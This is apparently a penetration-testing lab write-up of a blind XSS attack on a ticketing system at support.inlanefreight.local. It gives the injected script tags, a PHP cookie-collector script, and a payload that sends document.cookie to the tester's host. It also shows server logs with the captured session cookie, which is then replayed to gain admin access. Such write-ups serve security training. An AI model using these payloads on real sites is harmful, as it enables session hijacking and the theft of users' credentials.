 The tester found a ticketing system at http://support.inlanefreight.local.

He then proceeded to start a PHP server:
```shell-session
# sudo php -S 0.0.0.0:80
```

And trying to find a vulnerable field to XSS attack:
```javascript
"><script src="http://10.10.16.19/field_name"></script>
```

![[Pasted image 20240719104651.png]]

He then got a message request, meaning the message field is vulnerable:
```shell-session
# sudo php -S 0.0.0.0:80
[Fri Jul 19 10:48:55 2024] PHP 8.2.12 Development Server (http://0.0.0.0:80) started
[Fri Jul 19 10:49:11 2024] 10.129.176.69:36548 Accepted
[Fri Jul 19 10:49:11 2024] 10.129.176.69:36548 [404]: GET /message - No such file or directory
[Fri Jul 19 10:49:11 2024] 10.129.176.69:36548 Closing
```

The tester then prepared the following `index.php` file to get the cookies:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

The tester then appended the following payload to a `script.js` file:
```javascript
new Image().src='http://10.10.16.19/index.php?c='+document.cookie
```

He then made a file request to the server:
```javascript
"><script src=http://10.10.16.19/script.js></script>
```

![[Pasted image 20240719110215.png]]

The tester then got the cookie on the server side:
```shell-session
# sudo php -S 0.0.0.0:80
[Fri Jul 19 11:01:32 2024] PHP 8.2.12 Development Server (http://0.0.0.0:80) started
[Fri Jul 19 11:02:10 2024] 10.129.176.69:37018 Accepted
[Fri Jul 19 11:02:10 2024] 10.129.176.69:37018 [200]: GET /script.js
[Fri Jul 19 11:02:10 2024] 10.129.176.69:37018 Closing
[Fri Jul 19 11:02:11 2024] 10.129.176.69:37020 Accepted
[Fri Jul 19 11:02:11 2024] 10.129.176.69:37022 Accepted
[Fri Jul 19 11:02:11 2024] 10.129.176.69:37020 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
[Fri Jul 19 11:02:11 2024] 10.129.176.69:37020 Closing
[Fri Jul 19 11:02:12 2024] 10.129.176.69:37022 Closed without sending a request; it was probably just an unused speculative preconnection
```

The tester then used the [Cookie-Editor](https://cookie-editor.cgagnier.ca/) extension on the login page in order to change the cookie to the one we found, and potentially gain access as another user:
![[Pasted image 20240719111109.png]]

The tester finally refreshed the page and got access to ticketing system as an admin user:
![[Pasted image 20240719111214.png]]
